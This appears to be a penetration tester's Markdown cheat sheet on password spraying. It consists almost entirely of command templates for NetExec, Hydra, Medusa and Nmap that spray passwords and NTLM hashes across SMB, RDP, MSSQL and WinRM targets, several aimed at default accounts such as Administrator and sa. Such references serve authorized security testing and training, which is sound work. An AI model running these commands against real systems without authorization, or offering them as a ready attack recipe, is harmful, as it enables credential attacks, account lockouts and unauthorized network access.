 # Unix Shell

Search Tag(s): #password-spraying

TODO: Add more knowledge to Linux for password reuse

## 01 - SMB

### 1.1 - NetExec

Password spraying.

```
$ netexec smb <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain_name> | --local-auth] [--continue-on-success]
```

Password/NTLM hash spraying without bruteforce.

```
$ netexec smb <IP>/<CIDR> -u users.lst -p passwords.lst [-d <domain_name> | --local-auth] --no-bruteforce [--continue-on-success]

$ netexec smb <IP>/<CIDR> -u users.lst -H hashes.lst [-d <domain_name> | --local-auth] --no-bruteforce [--continue-on-success]
```

### 1.2 - Hydra

```
$ hydra -L users.lst -p "<password>" -M ip_targets.txt smb
```

### 1.3 - Medusa

```
$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M smb

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M smbnt
```

### 1.4 - Nmap

```
$ nmap -p 445 -Pn -n --script smb-brute --script-args "userdb=users.lst,passdb=passwords.lst" [--script-args smbtype=<version>] <IP>/<CIDR>

$ nmap -p 445 -Pn -n --script smb-brute --script-args "smbusername='Administrator',passdb=passwords.lst" [--script-args smbtype=<version>] <IP>/<CIDR>
```

## 02 - RDP

### 2.1 - NetExec

Password spraying

```
$ netexec rdp <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain_name> | --local-auth] [--continue-on-success]
```

Password/NTLM hash spraying without bruteforce.

```
$ netexec rdp <IP>/<CIDR> -u users.lst -p passwords.lst [-d <domain_name> | --local-auth] --no-bruteforce [--continue-on-success]

$ netexec rdp <IP>/<CIDR> -u users.lst -H hashes.lst [-d <domain_name> | --local-auth] --no-bruteforce [--continue-on-success]
```

### 2.2 - Hydra

```
$ hydra -l Administrator -p "<password>" -M ip_targets.txt rdp

$ hydra -L users.lst -p "<password>" -M ip_targets.txt rdp
```

### 2.3 - Medusa

```
$ medusa -H ip_targets.txt -u Administrator -p "<password>" -M rdp

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M rdp
```

## 03 - MSSQL

### 3.1 - NetExec

```
$ netexec mssql <IP>/<CIDR> -u sa -p "<password>" [-d <domain_name> | --local-auth] [--continue-on-success]

$ netexec mssql <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain_name> | --local-auth] [--continue-on-success]
```

### 3.2 - Hydra

```
$ hydra -l sa -p "<password>" -M ip_targets.lst mssql

$ hydra -L users.lst -p "<password>" -M ip_targets.lst mssql
```

### 3.3 - Medusa

```
$ medusa -H ip_targets.txt -u sa -p "<password>" -M mssql

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M mssql
```

## 04 - WinRM

### 4.1 - NetExec

```
$ netexec winrm <IP>/<CIDR> -u Administrator -p "<password>" [-d <domain_name> | --local-auth] [--continue-on-success]

$ netexec winrm <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain_name> | --local-auth] [--continue-on-success]
```

---
## References

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)